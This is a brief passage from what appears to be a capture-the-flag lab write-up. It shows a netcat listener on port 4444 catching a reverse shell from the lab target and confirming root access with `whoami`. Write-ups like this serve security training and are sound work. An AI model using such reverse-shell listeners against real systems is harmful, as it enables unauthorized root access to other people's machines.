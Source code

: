 We should get the root shell in the `nc` listener that we setup earlier.

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.60] from (UNKNOWN) [10.10.10.229] 43684
# whoami
root
```

![root flag](images/9.png)
